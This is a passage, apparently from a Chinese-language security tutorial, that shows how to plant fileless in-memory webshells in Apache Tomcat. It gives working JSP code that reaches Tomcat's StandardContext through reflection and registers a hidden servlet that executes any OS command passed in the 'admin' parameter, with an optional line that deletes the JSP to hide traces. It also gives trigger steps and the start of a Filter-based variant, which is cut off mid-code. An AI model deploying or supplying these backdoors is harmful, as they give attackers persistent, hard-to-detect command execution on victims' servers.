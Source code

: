   1. 利用反射通过`ApplicationContextFacade`获取到`StandardContext`

  2. 将`Servlet`程序封装到`Wrapper`

  3. 将封装好的`Wrapper`增加到`StandardContext`中并添加地址映射

代码如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <%@ page contentType="text/html;charset=UTF-8"%><%@ page import = "org.apache.catalina.core.*"%><%@ page import = "javax.servlet.*"%><%@ page import = "javax.servlet.http.*"%><%@ page import = "java.io.*"%><%@ page import = "java.lang.reflect.Field"%><%    class BackdoorServlet extends HttpServlet {        @Override        public void service(ServletRequest req, ServletResponse res) throws  IOException {            HttpServletRequest request = (HttpServletRequest) req;            HttpServletResponse response = (HttpServletResponse) res;            if (request.getParameter("admin")!=null){                Runtime.getRuntime().exec(request.getParameter("admin"));            }            else{                response.sendError(HttpServletResponse.SC_NOT_FOUND);            }        }    }    ServletContext servletContext =  request.getSession().getServletContext(); // 获取Context    // 通过反射从ApplicationContextFacade中获取到当前的StandardContext    Field field = servletContext.getClass().getDeclaredField("context");    field.setAccessible(true);    ApplicationContext applicationContext = (ApplicationContext) field.get(servletContext);    field = applicationContext.getClass().getDeclaredField("context");    field.setAccessible(true);    StandardContext standardContext = (StandardContext) field.get(applicationContext);    // 将Servlet添加到Context中去    BackdoorServlet backdoorServlet = new BackdoorServlet();    org.apache.catalina.Wrapper backdoorWrapper = standardContext.createWrapper();    backdoorWrapper.setName("hello");    backdoorWrapper.setLoadOnStartup(1);    backdoorWrapper.setServlet(backdoorServlet);    backdoorWrapper.setServletClass(backdoorServlet.getClass().getName());    // jiang    standardContext.addChild(backdoorWrapper);    standardContext.addServletMappingDecoded("/hello", "hello");    // 自毁//    (new File(application.getRealPath(request.getServletPath()))).delete();%>

触发方法：将JSP放入`webapp`文件夹中，我们首先访问路径`/addServlet.jsp`写入内存马，然后再访问`/hello?admin=<指令>`就可以执行命令了

### 增加Filter

由于Filter在Servlet之前运行，因此可以不受URL的限制，甚至可以伪装成在对一个正常的Servlet进行访问

增加Filter的方式分为4个步骤

  1. 通过反射从`ApplicationContextFacade`中获取到当前的`StandardContext`，从`StandardContext`获取到`filterConfigs`

  2. 封装`Filter`为`FilterDef`，并添加到`StandContext`中

  3. 生成新的`ApplicationFilterConfig`并添加到`filterConfigs`中

  4. 创建`FilterMap`并加入`StandardContext`中，为`Filter`确定适用的URL

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <%@ page contentType="text/html;charset=UTF-8"%><%@ page import = "org.apache.catalina.Context" %><%@ page import = "org.apache.catalina.core.*" %><%@ page import = "org.apache.tomcat.util.descriptor.web.*" %><%@ page import = "javax.servlet.*" %><%@ page import = "javax.servlet.http.HttpServletRequest" %><%@ page import = "java.io.*" %><%@ page import = "java.lang.reflect.*" %><%@ page import = "java.util.Map" %>  
    <%    class BackdoorFilter extends HttpFilter {        public void doFilter(ServletRequest req, ServletResponse res, FilterChain filterChain) throws IOException, ServletException {            HttpServletRequest request = (HttpServletRequest) req;            if (request.getParameter("admin")!=null){                Runtime.getRuntime().exec(request.getParameter("admin"));            }            filterChain.doFilter(req, res);        }    }  